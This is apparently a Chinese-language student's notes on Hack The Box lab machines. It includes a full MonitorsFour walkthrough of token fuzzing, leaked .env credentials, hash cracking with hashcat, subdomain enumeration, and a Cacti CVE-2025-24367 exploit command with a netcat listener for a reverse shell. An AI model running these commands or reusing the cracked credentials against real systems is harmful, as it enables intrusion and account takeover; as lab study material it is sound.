

1.lame
一个SMB的软件samba 3.0.20存在漏洞rce漏洞或者ftp漏洞，直接通过metasploit找到对应脚本进行利用，或者使用vsftpd存在的笑脸漏洞进行利用，这里也可以直接使用metasploit，反正都能得到root权限
2.blue （永恒之蓝漏洞）
可以直接msfconsole搜索ms17-010，找到脚本利用，也是root权限，漏洞主要原因本质还是缓冲区溢出的问题
**3.monitorsfour**
首先使用nmap扫描靶机发现只开了80和5985两个端口，尝试访问80端口发现不行 出现一个monitorsfour.htb的地址,所以要把ip和这个进行映射 把10.159.10.59 monitorsfour.htb写入etc/hosts文件后就可以正常访问，接着使用ffuf扫描后缀文件，也可以使用dirsearch扫描 然后扫出来这么几个.env/login/user等 主要还是这几个比较有用，然后就是尝试curl .env 发现
账户：monitorsdbuser
密码：f37p2j8f4t0r
接着在尝试去curl user 但是发现需要token 然后token尝试1错误 但是貌似值的类型是对的（不知道怎么确定的），然后输入seq 0 100 >number.txt  把数字写入文件，接着使用ffuf -u http:/monitorsfour.htb/user?token=FUZZ -w ./numbers.txt  -fs 36 （后面这个貌似是用来过滤错误的，回头学下在看看）


 结果发现0就是token的值，接着输出一堆json的数据，

```bash
curl http://monitorsfour.htb/user?token=0 | jq
```
使用 jq 排序后 发现是一些用户名和哈希密码值 然后写入文件后尝试使用hashcat进行爆破 成功爆出一个admin wonderful1 这个账户和密码去login这个页面可以成功登录
子域名枚举
```bash
ffuf -u http://monitorsfour.htb/ -H 'Host: FUZZ.monitorsfour.htb' -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -fs 138
```
通过这个可以枚举出一个cacti的子域名，也就是cacti.monitorsfour.htb然后打开页面尝试登录，他这里wp是说弄了一个marcus的用户名 但我看了user枚举出来的就有这个，应该可以直接通过尝试出来这个用户名，然后就可以成功登录 这里可以发现cacti是1.2.28版本的，去搜索对应的漏洞 有很多个 （不知道这里是怎么判断哪个漏洞的）
CVE-2025-24367,github上有现成的poc可以直接下载来用 
python3 exploit.py -u marcus -p wonderful1 -i 10.10.16.230 -l 4033 -url [http://cacti.monitorsfour.htb](http://cacti.monitorsfour.htb)  这里的ip是htb里面vpn的ip10.10.16.230 
开启监听nc -lvvp 4033  然后可以得到普通用户的shell，然后去/home/marcus目录的user.txt文件拿到第一个flag（root后续再弄吧 先学windows去了）
**流程 **
1.扫描端口
2.加host文件
3.ffuf或者dirsearch扫描文件并爆破token值
4.curl user得到账户和哈希密码
5.hashcat爆破得到账户和明文密码
6.子域名枚举
7.获得cacti版本并搜索相关漏洞
8.github拿到poc并执行exploit.py并反弹shell到kali，拿到user的flag
​
